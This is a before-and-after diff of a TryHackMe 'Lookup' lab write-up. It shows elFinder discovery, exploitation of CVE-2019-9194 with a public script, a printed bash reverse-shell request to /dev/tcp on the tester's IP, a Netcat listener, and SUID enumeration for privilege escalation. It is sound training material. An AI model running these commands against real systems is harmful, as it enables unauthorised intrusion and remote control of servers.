

Before and after one commit to Youssef-Mohamed100/Youssef-Mohamed100, a Markdown page: Linux Pentest/THM/Lookup.md, the part around one of its changes. Shown at 87% size. Drawn GitHub-style; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/Linux Pentest/THM/Lookup.md
+++ b/Linux Pentest/THM/Lookup.md
@@ -80,24 +117,45 @@ Nmap done: 1 IP address (1 host up) scanned in 14.45 seconds
 
 <img width="771" height="380" alt="image" src="https://github.com/user-attachments/assets/9c7eb852-815f-45a5-96e1-63a69d4d6e76" />
 
-## after login i found that server redirect request to files.lookup.thm , so i will add this in /etc/hosts else
+### Discovering the Second Virtual Host
+
+After successfully logging in, I noticed that the application redirects us to another hostname:
+
+`files.lookup.thm`
+
+Therefore, we need to add this hostname to our `/etc/hosts` file as well.
+
+```bash
+echo "10.129.131.171    files.lookup.thm" >> /etc/hosts
+```
 
 <img width="1129" height="576" alt="image" src="https://github.com/user-attachments/assets/f1fdfce3-b82a-427a-a317-63377c4fc3a0" />
 
-```
-(root㉿kali)-[/home/kali]
-└─# echo "10.129.131.171    files.lookup.thm" >> /etc/hosts
-```
+### elFinder Enumeration
 
-## then i found this service running on server so i will search exploit for this version of service "elfinder"
+After accessing the newly discovered hostname, I identified an `elFinder` service running on the server.
+
+I decided to investigate the installed version and search for publicly available exploits.
 
 <img width="983" height="585" alt="image" src="https://github.com/user-attachments/assets/aaf2ec4e-b6d8-451b-89ce-1f02402e2a67" />
 
-this version related with CVE-2019-9194
+The identified version is associated with:
 
-## I found exploit on github
+**CVE-2019-9194**
 
+After researching the vulnerability, I found a publicly available exploit on GitHub.
+
+### Exploiting CVE-2019-9194
+
+The vulnerability allows command injection through the elFinder PHP connector.
+
+I executed the exploit with the target URL and my local IP address and listening port to receive a reverse shell.
+
+```bash
+python3 exploit.py -t 'http://files.lookup.thm/elFinder/' -lh 192.168.192.119 -lp 12345
 ```
+
+```text
 ┌──(root㉿kali)-[/home/kali/Downloads]
 └─# python3 exploit.py -t 'http://files.lookup.thm/elFinder/' -lh 192.168.192.119 -lp 12345
 CVE-2019-9194 elFinder 2.1.47 - PHP connector Command Injection
@@ -107,7 +165,13 @@ Rotating image
 Requesting shell at http://files.lookup.thm/elFinder/php/rse.php?c=bash%20-c%20'bash%20-i%20>%26%20/dev/tcp/192.168.192.119/12345%200>%261'
 ```
 
+Before executing the exploit, I started a Netcat listener on my Kali machine to catch the incoming reverse shell.
+
+```bash
+nc -nlvp 12345
 ```
+
+```text
 ┌──(kali㉿kali)-[~]
 └─$ nc -nlvp 12345
 listening on [any] 12345 ...
@@ -117,8 +181,20 @@ bash: no job control in this shell
 <var/www/files.lookup.thm/public_html/elFinder/php$
 ```
 
-## when i excute 'find / -type f -perm -4000 2>/dev/null' to find suid files i found /usr/sbin/pwm
+<badge color="success">Initial Access Obtained</badge>
 
-## when i run it
+We successfully obtained a reverse shell as `www-data`.
 
+---
+
+## 3. Privilege Escalation — www-data to think
+
+### SUID Enumeration
+
+After gaining initial access, I started enumerating SUID binaries to identify potential privilege escalation vectors.
+
+I used the following command:
+
+```bash
+find / -type f -perm -4000 2>/dev/null
 ```
````
Also changed, not shown: other parts of Linux Pentest/THM/Lookup.md (+183 -34 lines).
